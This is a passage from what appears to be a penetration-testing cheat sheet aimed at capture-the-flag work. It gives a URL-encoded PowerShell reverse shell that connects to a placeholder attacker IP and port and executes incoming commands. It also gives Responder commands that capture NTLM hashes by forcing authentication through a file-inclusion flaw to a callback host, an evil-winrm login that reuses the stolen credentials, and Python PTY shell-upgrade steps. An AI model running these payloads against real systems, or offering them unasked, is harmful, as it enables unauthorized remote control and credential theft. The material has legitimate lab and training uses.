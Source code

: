 ### 🪟 Windows Webshell

```powershell
# REPLACE <IP> and <PORT>
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

## 🛠️ Post-Exploitation

Post-exploitation focuses on maintaining access, gathering information, escalating privileges, and preparing for lateral movement.

## 🛑 Responder - NTLM Hash Capture

```bash
# Configure listening services in: /etc/responder/Responder.conf
sudo responder -I <INTERFACE>

# Trigger NTLM authentication via LFI vulnerability
curl -o- <URL>/index.php?page=//<CALLBACK_IP>/somefile

# Capture NTLMv2-SSP Hash format: <USER>:<HOST>:<HASH>...

# Use evil-winrm to access machine with captured credentials
evil-winrm -i <HOST> -u <USER> -p <PASSWORD>

# Search for flags on Windows
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Name flag.txt
```

## ⬆️ Shell Upgrades

Upgrade a simple shell to a more interactive PTY.

### 🐍 Python Method

```bash
# === STEP 1 ===

# Terminal
for i in python3 python python2; do command -v "$i" >/dev/null && "$i" -c 'import pty; pty.spawn("/bin/bash")' && exit; done

# Meterpreter
execute -f 'python -c "import pty; pty.spawn(\"/bin/bash\")"' -i -t

# === STEP 2 ===

# Interpret terminal escape codes
export TERM=xterm

# === STEP 3 ===

CTRL+Z (background)

# Stabilize a shell from terminal escape commands
stty raw -echo; fg
```